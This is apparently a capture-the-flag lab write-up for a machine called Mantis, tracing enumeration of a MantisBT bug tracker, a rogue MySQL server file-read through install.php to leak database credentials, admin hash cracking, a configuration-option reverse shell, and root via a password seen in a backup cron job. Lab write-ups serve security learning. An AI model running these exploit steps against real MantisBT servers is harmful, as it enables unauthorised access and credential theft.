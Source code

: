 # Mantis

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:54 +08
Nmap scan report for 192.168.201.204
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

I did a detailed scan on these ports:

```
$ sudo nmap -p 80,3306 -sC -sV --min-rate 4000 192.168.201.204     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:56 +08
Nmap scan report for 192.168.201.204
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Slick - Bootstrap 4 Template
3306/tcp open  mysql   MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 37
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: E!sB/b!zhxE.VGAOJd;9
|_  Auth Plugin Name: mysql_native_password
```

### Web Enumeration

Port 80 hosted a static page:

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` on this website, and it did find a few directories of interest:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.201.204/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.204/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/08 15:57:35 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 316] [--> http://192.168.201.204/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.201.204/js/]
/fonts                (Status: 301) [Size: 318] [--> http://192.168.201.204/fonts/]
/bugtracker           (Status: 301) [Size: 323] [--> http://192.168.201.204/bugtracker/]
```

`/bugtracker` looks interesting. It brought me to a login page stating that the admin directory is a security risk.&#x20;

<figure><img src="../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

I tried to access the `/admin` panel but it didn't work. I took a look at the Github repository for this software and tried to access the other files within the admin panel, which worked:

{% embed url="https://github.com/mantisbt/mantisbt" %}

<figure><img src="../../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>

At the bottom of the page, there are options to Upgrade the SQL database:

<figure><img src="../../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If we just click on the Install button without filling in any details, we are brought to another page:

<figure><img src="../../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

There's a configuration file mentioned at the bottom of the page, and it also shows that the web page is able to interact with the SQL instance.&#x20;

### Rogue MySQL LFI --> MySQL Creds

I did a lot more reading about `install.php` and the other components related to SQL (because SQL is publicly facing for some reason) of the admin panel and came across this CVE:

{% embed url="https://mantisbt.org/bugs/view.php?id=23173" %}

This involves using a Rogue SQL server to exploit an LFI:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server/blob/master/roguemysql.php" %}

We just have to visit `install.php?install=3&hostname=192.168.45.191` to run it, and it works!

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

We can use this to read the `config_inc.php` file mentioned earlier:

```
$ php sql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.201.204:47156 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.201.204:47156:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'bugtracker';
$g_db_username            = 'root';
$g_db_password            = 'SuperSequelPassword';

$g_default_timezone       = 'UTC';

$g_crypto_master_salt     = 'OYAxsrYFCI+xsFw3FNKSoBDoJX4OG5aLrp7rVmOCFjU=';
```

This grants us the MySQL creds, which we can use to login:

<figure><img src="../../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>

### Bugtracker Creds --> RCE

With access to the database, we can view the password of the administrator of the MantisBT instance.&#x20;

```
MariaDB [bugtracker]> select * from mantis_user_table;
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
| id | username      | realname | email             | password                         | enabled | protected | access_level | login_count | lost_password_request_count | failed_login_count | cookie_string                                                    | last_visit | date_created |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
|  1 | administrator |          | root@localhost    | c7870d0b102cfb2f4916ff04e47b5c6f |       1 |         0 |           90 |           5 |                           0 |                  0 | Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7 | 1651296959 |   1651292492 |
|  2 | test123       |          | test123@gmail.com | 3a85acb13b850e7b8e2b53331becc726 |       1 |         0 |           25 |           0 |                           0 |                  1 | TORSv6oU4EXOyA4cqXXgBod5RJ3vY445ArdZ9uS795NfqWdsKib7OMQGfiMOUAbp | 1688803375 |   1688803375 |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
```

This hash can be cracked on CrackStation:

<figure><img src="../../../.gitbook/assets/image (151) (5).png" alt=""><figcaption></figcaption></figure>

Now, there are RCE exploits for this, but the one from `searchsploit` also abuses another exploit to do with password resetting for the administrator user.

First of all, that doesn't seem to work for this machine, and secondly, we already have the administrator password. In this case, I manually exploited the machine while using the PoC as a guideline.&#x20;

We can first login as the administrator:

<figure><img src="../../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

Then, head to `/bugtracker/adm_config_report.php` and create the following Configuration Options:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

Then, just visit `/bugtracker/workflow_graph_img.php`, and we will receive a reverse shell:

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Pspy Mantis Creds --> Root

We can grab the user flag from the user `mantis`. Afterwards, we can find some interesting files within their home directory:

```
www-data@mantis:/home/mantis/db_backups$ ls -la
total 52
drwxr-xr-x 2 mantis mantis  4096 Jan 30 16:15 .
drwxr-xr-x 3 mantis mantis  4096 May 17  2022 ..
-rw-rw-r-- 1 mantis mantis 37130 Jul  8 08:44 1652766150.sql
-rwx------ 1 mantis mantis   104 May 17  2022 backup.sh
```

The file was recently edited, so I ran `pspy64` on the machine to see what `backup.sh` was doing.

```
2023/07/08 08:46:01 CMD: UID=1000 PID=5746   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5745   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5747   | mysqldump -u bugtracker -pBugTracker007 bugtracker
```

There was a password present. Using that, we can `su` to `mantis`, who can run `sudo` on everything without a password.

<figure><img src="../../../.gitbook/assets/image (4) (7).png" alt=""><figcaption></figcaption></figure>

Rooted!

